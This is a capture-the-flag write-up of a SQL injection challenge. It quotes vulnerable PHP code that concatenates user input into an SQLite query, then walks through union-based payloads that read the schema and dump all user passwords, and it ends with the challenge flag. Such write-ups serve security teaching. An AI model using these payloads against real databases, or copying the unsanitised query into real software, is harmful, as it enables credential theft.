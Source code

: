 This challenge is about SQL injection

![image](https://user-images.githubusercontent.com/72671239/217016363-5356ac1b-457a-4022-b441-c546c96bdaad.png)

by using ' input an error shows up 

![image](https://user-images.githubusercontent.com/72671239/217016641-1f864bdf-8d46-46c7-9927-bb264ff1f705.png)

this means that the sql injection vulnerability exist, there is a link for analysing the source code

```php
<?php
session_start ();
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);
include 'anti_csrf.php';
init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY); /* dealing with SQLite3 database */
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1'; /* this is where the vulnerability arrise as the query is concatunated and input is not sanitized or validated */
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) { return $users; }

        return false;
    }}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();
    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```
using union attack, input `1 union select 1,1--`

![image](https://user-images.githubusercontent.com/72671239/217018938-4da61425-0dc6-4203-b706-63e1d21bfac2.png)

using input `1 union select 1,sql from sqlite_master --` to extract CREATE statement text that created the object

![image](https://user-images.githubusercontent.com/72671239/217022768-8fb51721-668d-424f-89c2-1fb3d8e14700.png)

i've noticed that the next payload only work for users out or range, so choosed id=9

input `9 union select password,group_concat(password) from users --` to extract all the passwords in the users table

![image](https://user-images.githubusercontent.com/72671239/217025301-f945b324-df46-4bcf-a8e9-2bba73a6b941.png)

_flag => WEBSEC{Simple_SQLite_Injection}_
